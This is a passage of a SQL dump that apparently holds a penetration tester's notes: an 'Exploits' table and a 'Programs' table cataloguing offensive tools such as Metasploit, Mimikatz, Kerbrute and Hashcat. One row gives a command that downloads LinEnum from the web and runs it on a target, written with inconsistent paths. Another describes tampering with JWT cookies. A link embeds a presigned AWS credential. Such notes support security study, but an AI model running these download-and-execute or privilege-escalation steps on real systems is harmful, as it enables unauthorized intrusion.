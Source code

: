 Code, Result, Notes) VALUES ('Linux', 'Priv Enum', NULL, 'use Linenum.sh to enumerate linux box', 'wget https://www.linenum.sh/ -P /dev/shm/Linenum.sh; chmod +x /dev/shm/linenum.sh ; ./dev/shm/Linenum.sh | tee /dev/shm/lininfo.txt', ' file, /dev/shm/lininfo.txt, with priv esc info', 'it is possible to use other methods of download like: curl or others found on google'); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES ('Website', 'No-Auth', NULL, NULL, NULL, NULL, NULL); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES ('Website', 'Re-Registration', NULL, NULL, NULL, NULL, NULL); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES ('Website', 'JWT', 'a site that uses jSON as cookies', 'edit the information (with BURP) thats going to the website to gain access without authenitaction', NULL, NULL, NULL);  -- Table: Programs CREATE TABLE Programs (Name text PRIMARY KEY NOT NULL UNIQUE, Stage TEXT, Description text, Info text, Features TEXT, Target TEXT, Offensive BOOLEAN, commands TEXT); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('Nmap', 'Enum', 'Used for scanning a network/host to gather more information', 'man pages on linux', 'Scanning', 'All', 'Y', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('BURP Suit', 'Enum, Exploit', 'A program for manipulating HTTP requests, enumeration and Exploit', 'https://portswigger.net/burp/documentation/contents', 'Brute', 'Web', 'Y', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('Metasploit', 'All', 'Powerfull swiss-army-knife of hacking', 'https://docs.rapid7.com/metasploit/', NULL, 'All', 'Y', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('MSFVenom', 'Exploit', 'Designed for creating payloads', 'https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom', 'Payloads', 'OS', 'Y', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('Snort', 'Utility', 'Packet sniffer', 'https://snort-org-site.s3.amazonaws.com/production/document_files/files/000/000/249/original/snort_manual.pdf?X-Amz-Algorithm=AWS4-HMAC-SHA256&amp;X-Amz-Credential=AKIAIXACIED2SPMSC7GA%2F20210128%2Fus-east-1%2Fs3%2Faws4_request&amp;X-Amz-Date=20210128T192737Z&amp;X-Amz-Expires=172800&amp;X-Amz-SignedHeaders=host&amp;X-Amz-Signature=4b51dc730677d14203c4a4cde25c1831ac64e9eca8df89c6737701811fa3f9fd', 'Sniffing', 'N/A', 'N', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('GoBuster', 'Enum', 'A fuzzer for websites', 'man pages on linux', 'Fuzzing', 'Web', 'Y', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('Hydra', 'Exploit', 'Brutforcer for wesite passwords', 'man pages on linux', 'Brute', 'Web', 'Y', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('Mimikatz', 'Post', 'Used to exploit kerberos', 'https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49', NULL, 'Windows', 'Y', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('Impacket', 'Exploit', 'The fascilitator of python bassed script that uses modules for attacking windows ', 'https://www.secureauth.com/labs-old/impacket/', NULL, 'Windows', 'Y', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('Enum4Linux', 'Enum', 'for Enumerating Windows and Samba hosts', 'man pages included, https://tools.kali.org/information-gathering/enum4linux', 'Exploit Enum', 'Linux', 'Y', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('Rubeus', 'Exploit', 'Used for kerberos interaction and abuse', 'https://github.com/GhostPack/Rubeus', NULL, 'Windows', 'Y', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('Kerbrute', 'Enum, Exploit', 'quickly enumerate and brutforce active directory accounts through kerberos pre-authentication', 'https://github.com/ropnop/kerbrute/', 'Brute', 'Windows', 'Y', 'y'); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('John the Ripper', 'Exploit', 'a password brutforcer', 'https://www.openwall.com/john/doc/', 'Brute', 'Hash', 'Y', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('Hashcat', 'Exploit', 'A password bruteforces', 'http://manpages.org/hashcat', 'Brute', 'Hash', 'Y', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('Bloodhound', 'Enum', 'Network mapping tool', 'https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux', NULL, 'N/A', 'Y', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('Wireshark', 'Utility', 'Packet sniffer', 'https://www.wireshark.org/download/docs/user-guide.pdf', 'Sniffing', 'N/A', 'N', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('Hash-Identifier', 'Utility', '(superseeded by Name-That-Hash)A simple python program for identifying hashes', 'man pages on linux', NULL, 'Hash', 'N', NULL); INSERT INTO Programs (Name, Stage, Description, Info, Features, Target, Offensive, commands) VALUES ('Scp', 'Utility', 'For transfering files over SSH connection', 'man pages on llinux', 'Connect', 'N/A', 'N', NULL); INSERT INTO Programs (Name, Stage, Description, Info,